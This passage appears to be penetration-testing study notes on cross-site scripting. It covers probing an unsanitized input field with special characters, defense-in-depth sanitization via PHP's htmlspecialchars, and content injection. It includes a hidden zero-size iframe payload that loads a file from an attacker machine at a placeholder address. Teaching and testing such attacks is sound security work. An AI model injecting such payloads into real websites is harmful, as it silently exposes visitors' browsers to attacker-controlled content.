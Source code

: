 > HTML encoding (of character references) can be used to didsplay characters that normally have special meanings, like tag elements. For example, "&lt;" is the character reference for "<". When encountering this type of encoding, the browser will not interpret the character as the start of an element, but will display the actual character as-is.

If we inject these special characters into the page, the browser will treat them as code elements. You could then begin to build code to execute in the vitim's browser.

we ma need different sets of characters depending on where our input is being included. For example, if our input is being added between _div_ tags, we will need to include our own script tags and will need to be able to inject `<` and `>` as part of the payload. If our input is being added within an existing JavaScript tag, we might only need quotes and semicolons to add our own code.

In order to test for XSS, find an input fields for name on a test application and insert values like:

```
hello "; < >
```

Reviewing the resulting message in the _Inspector_ tool, you could see that the characters were not removed or encoded.

Since input is not filtered or sanitized, and our special characters have passed through into the output, the conditions look right for an XSS vulnerability. 

> Where should data be sanitized? On submission or when it's displayed? Ideally, data will be sanitized in both places. Sanitizing both locations would be an example of Defense in Deph, a security practice and principle that advocates adding layers of defenses anywhere possible. This tends to create more robust applications. However, if sanitization is only applied in one place, it should be applied consistently. In PHP, the `htmlspecialchars` function can be used to convert key characters into HTML entities before rendering them into strings.


#### Content Injection
XSS vulnerabilities are often used to deliver client-side attacks as they allow for the redirection of a victim's borwser to a location of the attacker's choosing. A stealthy alternative to a redirect is to inject an invisible _iframe_ like the following:

```
<iframe src=http://x.x.x.x/report height="0" width="0"></iframe>
```

An iframe is used to embed another file, such as an image or another HTML file, within the current HTML document. In our case, "report" is a file hyperlinked to our attack machine, and the iframe is invisible because it has no size since the height and width are set to zero.